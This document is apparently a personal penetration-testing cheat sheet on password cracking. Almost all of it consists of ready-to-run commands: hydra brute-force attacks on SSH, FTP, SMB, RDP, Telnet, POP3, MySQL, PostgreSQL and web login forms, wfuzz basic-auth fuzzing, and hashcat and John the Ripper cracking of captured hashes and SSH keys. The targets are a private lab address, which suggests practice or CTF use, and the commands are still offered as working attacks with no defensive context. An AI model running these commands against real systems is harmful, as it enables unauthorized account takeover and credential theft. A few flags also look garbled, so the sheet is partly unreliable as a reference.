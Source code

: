 # Cracking Techniques

Usually the tools that I always use are hashcat, wfuzz, hydra and metasploit. 

- [SSH](#ssh)
- [FTP](#ftp)
- [SMB](#smb)
- [RDP](#rdp)
- [Telnet](#rdp)
- [Pop3](#pop3)
- [Mysql](#mysql)
- [Postgresql](#postgresql)
- [HTTP](#http)
- [Hashcat](#hashcat)
- [John](#john)
- [References](#references)

### SSH

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ssh 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ssh

# Different Port 
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ssh -s 9999
```

### FTP

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 ftp

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 ftp

# Different Port 
hydra  -l user -P /opt/rockyou.txt -f 10.10.8.83 ftp -s 9999
```

### SMB

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 smb

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 smb 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 smb

# With Domain
hydra -l user -P /opt/rockyou.txt -f -m Domain 10.10.8.83 smb 

```

### RDP

```
# Unknown User
hydra -L user.txt -p "Password" -f rdp://10.10.8.83

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f rdp://10.10.8.83

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f rdp://10.10.8.83
```

### Telnet

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 telnet

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 telnet

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 telnet -s 9999
```

### Pop3

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 pop3

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 pop3

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 pop3 -s 9999
```

### Mysql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 mysql

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 mysql

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 mysql -s 9999
```

### Postgresql

```
# Unknown User
hydra -L user.txt -p "Password" -f 10.10.8.83 postgres 

# Unknown Password
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Unknown User and Password
hydra -L user.txt -P /opt/rockyou.txt -f 10.10.8.83 postgres 

# Different Port
hydra -l user -P /opt/rockyou.txt -f 10.10.8.83 postgres -s 9999
```

### HTTP

```
=> Hydra

# Unknown User
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown Password
hydra -f -l user -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

# Unknown User and Password
hydra -f -L user.txt -P /opt/rockyou.txt 10.10.8.83 http-post-form "/api/login:username=^USER^&password=^PASS^&Login=Login:Incorrect Credentials" -t 50

=> Wfuzz

# Basic Authentication
wfuzz -u http://10.10.8.83 -H "Authorization : Basic FUZZ" -w userpass.txt --h459

wfuzz -w user.txt -w pass.txt --basic FUZZ:FUZ2Z http://10.10.8.83
```


### Hashcat

Please check the mode in the link below:

https://hashcat.net/wiki/doku.php?id=example_hashes

```
hashcat -m 160 crack.txt /opt/rockyou.txt

hashcat -m 160 crack.txt /opt/rockyou.txt --force
```

### John

Usually the john is already inside Kali VM. You can locate it in /usr/share/john/.

```
# Find List of John 
locate john | grep /usr/share/john/ | grep 2 | grep -v "ztex" | grep -v "rules"

# Convert to John (Example)
python /usr/share/john/ssh2john.py id_rsa > hash.txt

# To crack
john --wordlist=/opt/rockyou.txt hash.txt

john hash.txt --format=RAW-MD5 --wordlist=/opt/word/rockyou.txt

```

# References

[1] https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux

[2] https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/

[3] https://medium.com/better-programming/can-we-automate-earning-bug-bounties-with-wfuzz-c4e7a96810a5

[4] https://hashcat.net

[5] http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats